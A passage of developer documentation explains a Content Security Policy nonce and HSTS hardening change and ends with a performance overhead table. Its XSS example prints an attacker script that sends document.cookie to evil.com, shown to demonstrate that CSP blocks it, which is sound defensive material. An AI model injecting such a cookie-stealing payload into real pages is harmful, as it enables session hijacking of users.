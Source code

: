 **After P0.4**:
- ✅ Inline scripts blocked unless they have valid nonce
- ✅ Injected scripts cannot execute (no nonce)
- ✅ XSS attacks significantly mitigated
- ✅ Referrer limited to origin only on cross-origin HTTPS requests
- ✅ HSTS enforced across all subdomains

### XSS Protection Example

**Scenario**: Attacker injects malicious script via XSS vulnerability

```html
<!-- Attacker payload (injected via XSS) -->
<script>
    fetch('https://evil.com/steal?cookie=' + document.cookie);
</script>
```

**Before P0.4 (Vulnerable)**:
- Script executes immediately
- Cookies stolen
- Session hijacked

**After P0.4 (Protected)**:
- **Browser blocks script** (no nonce)
- Console error logged
- Attack prevented

**Console Output**:
```
Refused to execute inline script because it violates Content Security Policy directive: "script-src 'self' 'nonce-...'".
```

### Defense in Depth

CSP is **not a replacement** for proper input validation and output encoding, but provides an additional security layer:

1. **Primary Defense**: Input validation + output encoding (existing)
2. **Secondary Defense**: CSP nonce (P0.4) ← blocks attacks that bypass primary defense
3. **Tertiary Defense**: HSTS + secure cookies (existing)

---

## Performance Impact

### Overhead Analysis

| Component | Overhead | Impact |
|-----------|----------|--------|
| Nonce generation (once per request) | ~0.5ms | Negligible |
| CSP header size | ~350 bytes | Negligible |
| Meta tags in HTML | 160 bytes | Negligible |
| Nonce attribute per script | 40 bytes each | Negligible |
| **Total per request** | **~0.5ms + 400 bytes** | **Negligible** |
